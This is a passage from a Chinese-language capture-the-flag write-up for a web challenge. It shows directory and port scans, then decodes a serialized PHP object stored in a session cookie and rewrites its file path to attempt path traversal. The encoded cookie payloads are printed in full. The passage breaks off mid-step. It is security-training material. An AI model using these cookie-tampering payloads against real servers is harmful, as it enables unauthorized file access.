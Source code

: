 4. 使用dirsearch进行目录扫描

   ```shell
   ./dirsearch.py -u http://ip:port/ -E
   
   [22:21:27] 200 -    7KB - php        
   [22:22:07] 200 -    7KB - adminphp                                         
   [22:23:16] 200 -    7KB - index.php                                       
   [22:23:30] 200 -    7KB - myadminphp                                       
   [22:23:59] 301 -  162B  - static  ->  http://159.65.18.5/static/   
   ```

   * 发现只要是在该ip:port/下的任何路径都会重定向到该页面，因此目录扫描应该没有效果

5. 进行扫描

   * 端口扫描，未找到其它端口

      ```shell
   nmap -Pn [ip] -p 1-65525
      ```

   * 服务扫描，探测到使用了nginx

      ```shell
      nmap -Pn  [IP] -p 30948 -sV --version-all
      Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-05 22:40 CST
      Nmap scan report for [IP]
      Host is up (0.29s latency).
      
      PORT      STATE SERVICE VERSION
      30948/tcp open  http    nginx
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
      ```

6. 重新阅读题干，“当箭蛙遇到工业化时，就不会有恶意输入”。因此可能与输入值有关

7. 查看Cookie，发现存在一条Cookie：PHPSESSID:Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9

8. 使用Hasher对Cookie进行解码，其中base64解码后得到O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}。

   > 1. 可以看出，该对象是php对象序列化之后的字符串，因此可能后端通过这个对象来进行读取文件进行展示，如果修改文件路径应该可以实现路径遍历
   > 2. 使用EditThisCookie和Hasher组合使用，可实现Cookie的快速更改和快速编解码

9. 对Cookie进行修改

   * 尝试对目录访问，返回的response为空

     ```php
     O:9:"PageModel":1:{s:4:"file";s:5:"/www/";}
     
     Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo1OiIvd3d3LyI7fQ==
     ```

   * 尝试对文件访问，返回的response为空

     ```php
     O:9:"PageModel":1:{s:4:"file";s:4:"flag";}
     